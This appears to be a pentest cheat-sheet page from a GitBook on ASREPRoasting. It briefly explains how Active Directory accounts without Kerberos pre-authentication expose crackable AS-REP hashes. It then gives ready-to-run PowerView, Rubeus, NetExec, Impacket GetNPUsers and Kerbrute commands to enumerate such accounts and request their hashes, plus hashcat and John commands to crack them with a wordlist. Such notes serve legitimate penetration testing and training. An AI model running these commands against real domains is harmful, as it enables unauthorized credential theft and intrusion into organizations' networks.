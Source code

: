 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ASREPRoasting

## TL;DR&#x20;

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**. If an account has the [Do not require Kerberos pre-authentication](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **Authentication Service - Response (AS-REP)**. The AS-REP contains the **TGT** which is encypted with the account's password hash which, depending on its strength, can be potentially cracked.

<figure><img src="../../../.gitbook/assets/kerberos_process (1).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="PowerView (UserEnum)" %}
{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}
{% endtab %}

{% tab title="Rubeus" %}
```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```
{% endtab %}
{% endtabs %}

## Linux <a href="#linux" id="linux"></a>

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 10.10.10.161 -u users.lst -p '' --asreproast asreproast.lst
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetNPUsers.py DOMAIN/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users.lst
```
{% endtab %}

{% tab title="Kerbrute" %}
```bash
kerbrute userenum -d DOMAIN --dc 172.16.5.5 /opt/jsmith.txt 
```
{% endtab %}
{% endtabs %}

For an example of ASREPRoasting with NetExec check [here](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting).

## Hash cracking

{% tabs %}
{% tab title="Hashcat" %}
```bash
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
```
{% endtab %}

{% tab title="John" %}
{% code overflow="wrap" %}
```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 asreproastable_users
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Video" %}
{% embed url="https://www.youtube.com/watch?index=4&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT&v=EVdwnBFtUtQ" %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}
{% endtabs %}
